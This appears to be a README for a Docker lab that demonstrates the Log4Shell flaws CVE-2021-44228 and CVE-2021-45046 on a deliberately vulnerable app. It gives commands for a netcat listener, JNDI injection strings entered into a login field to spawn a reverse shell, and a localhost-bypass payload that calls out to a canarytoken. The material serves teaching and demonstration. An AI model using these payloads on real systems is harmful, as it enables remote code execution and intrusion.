


# README

There are 3 main docker files in this directory.
1. base-alpine: The working vulnerable app ported to Alpine Linux. This was upgraded to the version, `9.0.8-jre8-alpine`. This is meant to demo `CVE-2021-44228`.
1. exploit-server: The base exploit server hosting the LDAP server, and the server serving `Exploit.class`
1. modified-alpine: A modified version of `base-alpine` to use Log4J 2.15.0. This is meant to demo `CVE-2021-45046`.

# Setup

Please see individual `README.md`'s for how to setup. `base-alpine` and `modified-alpine` cannot be ran at the same time.

# Exploitation

## CVE-2021-44228

Run the following commands:
1. `docker-compose up -d exploit-server`
1. `docker-compose up base-alpine`
1. On a new shell session, start a netcat session listening on port 9001. This can be done by running `nc -lvnp 9001`
1. Navigate to `localhost:8080`. Input the string, `${jndi:ldap://localhost:1389/a}` into the username field. The password can be anything (including blank)
1. A reverse shell should be spawned on the netcat listener.

## CVE-2021-45046

The PoC for `CVE-2021-45046` will be slightly different as we require a malicious LDAP server not hosted locally. Therefore, this PoC will only show an LDAP DNS request being successfully received, bypassing the LDAP localhost restrictions.

Follow the steps:
1. `docker-compose up -d exploit-server`
1. `docker-compose up modified-alpine`
1. Go to `https://webhook.site/` to obtain a webhook URL. It should generate a unique URL.
1. Go to `https://canarytokens.org/generate#`. Select DNS token, and put in the unique URL in second input box. Then, put any message in the last input box.
    
1. Navigate to `localhost:8080`. Input the string, `${jndi:ldap://localhost#YOUR_CANARYTOKEN}`. There should be a new DNS request with the memo, "exploited cve-2021-45046" (or any other text message that you put).
    
1. This shows a successful LDAP request to a website that is not locally hosted -- bypassing the localhost restriction implemented in Log4J 2.15.0